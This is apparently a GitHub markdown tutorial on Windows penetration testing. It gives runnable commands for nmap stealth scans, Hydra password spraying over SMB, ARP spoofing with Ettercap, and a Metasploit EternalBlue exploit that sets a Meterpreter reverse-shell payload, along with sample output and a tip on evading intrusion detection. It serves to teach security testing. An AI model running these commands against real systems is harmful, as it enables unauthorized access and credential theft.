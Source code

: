 ```markdown
# Windows Exploitation, Privilege Escalation, and Credential Access

This document provides an overview of key penetration testing techniques, including port scanning, authentication, password spraying, protocol spoofing, and exploitation with initial access. Each section includes easy-to-follow examples.

---

## Port Scanning

Port scanning is the process of identifying open ports and services on a target system. It helps determine potential entry points for exploitation.

### Example: Scanning for Open Ports
1. **Tool**: Nmap
2. **Command**:
   ```bash
   nmap -sS -p 1-1000 <target-ip>
   ```
3. **Explanation**:
   - `-sS`: Performs a stealth SYN scan.
   - `-p 1-1000`: Scans ports 1 through 1000.
4. **Output**:
   ```plaintext
   PORT     STATE SERVICE
   22/tcp   open  ssh
   80/tcp   open  http
   445/tcp  open  microsoft-ds
   ```
5. **Use Case**:
   - Identify services running on open ports (e.g., SMB, HTTP) for further testing.

---

## Authentication

Authentication is the process of verifying a user's identity. Penetration testers analyze authentication mechanisms to identify weaknesses.

### Example: Testing Authentication
1. **Scenario**: A web application login page.
2. **Tool**: Burp Suite
3. **Steps**:
   - Intercept the login request using Burp Suite.
   - Analyze the request to identify parameters (e.g., `username` and `password`).
   - Test for vulnerabilities like weak passwords or improper session handling.
4. **Example Request**:
   ```http
   POST /login HTTP/1.1
   Host: example.com
   Content-Type: application/x-www-form-urlencoded

   username=admin&password=admin123
   ```
5. **Outcome**:
   - Identify weak credentials or misconfigured authentication mechanisms.

---

## Password Spraying

Password spraying is a brute-force attack technique where a single password is tested against multiple usernames to avoid account lockouts.

### Example: Performing a Password Spraying Attack
1. **Tool**: Hydra
2. **Command**:
   ```bash
   hydra -L usernames.txt -p Password123 <target-ip> smb
   ```
3. **Explanation**:
   - `-L usernames.txt`: Specifies a file containing usernames.
   - `-p Password123`: Tests the password `Password123` against all usernames.
   - `smb`: Specifies the SMB protocol.
4. **Output**:
   ```plaintext
   [445][smb] host: 192.168.1.10   login: jdoe   password: Password123
   ```
5. **Use Case**:
   - Identify accounts with weak or default passwords.

---

## Protocol Spoofing

Protocol spoofing involves impersonating a legitimate protocol to manipulate or intercept network traffic.

### Example: ARP Spoofing
1. **Objective**: Intercept traffic between two devices on the same network.
2. **Tool**: Ettercap
3. **Steps**:
   - Enable IP forwarding:
     ```bash
     echo 1 > /proc/sys/net/ipv4/ip_forward
     ```
   - Launch Ettercap:
     ```bash
     ettercap -T -M arp:remote /<target-ip>/ /<gateway-ip>/
     ```
   - Monitor intercepted traffic.
4. **Outcome**:
   - Capture sensitive data such as credentials or session tokens.

---

## Exploitation and Initial Access

Exploitation involves leveraging vulnerabilities to gain unauthorized access to a target system. Initial access is the first step in compromising a system.

### Example: Exploiting a Vulnerability
1. **Scenario**: Exploiting the EternalBlue vulnerability (MS17-010) on a Windows machine.
2. **Tool**: Metasploit
3. **Steps**:
   - Start Metasploit:
     ```bash
     msfconsole
     ```
   - Search for the exploit:
     ```plaintext
     search ms17_010
     ```
   - Use the exploit module:
     ```plaintext
     use exploit/windows/smb/ms17_010_eternalblue
     ```
   - Set the target:
     ```plaintext
     set RHOSTS <target-ip>
     ```
   - Set the payload:
     ```plaintext
     set payload windows/x64/meterpreter/reverse_tcp
     ```
   - Launch the exploit:
     ```plaintext
     exploit
     ```
4. **Outcome**:
   - Gain a Meterpreter session on the target machine.
   - Example command:
     ```plaintext
     meterpreter > sysinfo
     ```
   - Output:
     ```plaintext
     Computer        : WIN-MEGA01
     OS              : Windows 10 (Build 19041).
     ```

---

## Security Considerations

- **Port Scanning**: Use stealth techniques to avoid detection by intrusion detection systems (IDS).
- **Authentication**: Test only with permission to avoid violating ethical guidelines.
- **Password Spraying**: Limit attempts to avoid account lockouts.
- **Protocol Spoofing**: Ensure ethical use and avoid disrupting legitimate network traffic.
- **Exploitation**: Always obtain written permission before exploiting vulnerabilities.

---

By understanding these techniques and practicing the examples, you can effectively perform penetration testing on Windows environments while adhering to ethical guidelines.
```